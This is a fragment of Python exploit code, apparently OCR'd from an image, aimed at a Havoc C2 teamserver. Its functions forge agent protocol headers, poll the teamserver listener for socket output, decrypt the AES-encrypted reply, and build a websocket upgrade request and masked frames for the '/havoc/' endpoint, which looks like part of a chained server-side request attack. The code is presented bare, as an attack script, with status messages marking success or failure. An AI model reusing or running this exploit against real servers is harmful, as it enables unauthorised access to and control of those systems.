```python
    else:
        print(f"[!!!] Failed - {r.status_code} {r.text}")

def read_socket(socket_id):
    # COMMAND_GET_JOB / 1
    command = b"\x00\x00\x00\x01"
    request_id = b"\x00\x00\x00\x09"

    header_data = command + request_id

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data


    print("[***] Trying to poll teamserver for socket output ...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Read socket output successfully!")
    else:
        print(f"[!!!] Failed to read socket output - {r.status_code} {r.text}")
        return ""

    command_id = int.from_bytes(r.content[0:4], "little")
    request_id = int.from_bytes(r.content[4:8], "little")
    package_size = int.from_bytes(r.content[8:12], "little")
    enc_package = r.content[12:]

    return decrypt(AES_Key, AES_IV, enc_package)[12:]
    
def create_websocket_request(HOST, PORT):
	request = ( 
		f"GET /havoc/ HTTP/1.1\r\n"
		f"Host: {HOST}:{PORT}\r\n"
		f"Upgrade: websocket\r\n"
		f"Connection: Upgrade\r\n"
		f"Sec-WebSocket-Key: 5NUvQyzkv9bpu376gKd2Lg==\r\n"
		f"Sec-WebSocket-Version: 13\r\n"
		f"\r\n"
	).encode()
	return request
	
def build_websocket_frame(payload):
	payload_bytes = payload.encode("utf-8")
	frame = bytearray()
	frame.append(0x81)
	payload_length = len(payload_bytes)
	if payload_length <= 125:
		frame.append(0x80 | payload_length)
	elif payload_length <= 65535:
		frame.append(0x80 | 126)
		frame.extend(payload_length.to_bytes(2, byteorder="big"))
	else:
		frame.append(0x80 | 127)
		frame.extend(payload_length.to_bytes(8, byteorder="big"))

	masking_key = os.urandom(4)
	frame.extend(masking_key)
	masked_payload = bytearray(byte ^ masking_key[i % 4] for i, byte in enumerate(payload_bytes))
	frame.extend(masked_payload)
	return frame

```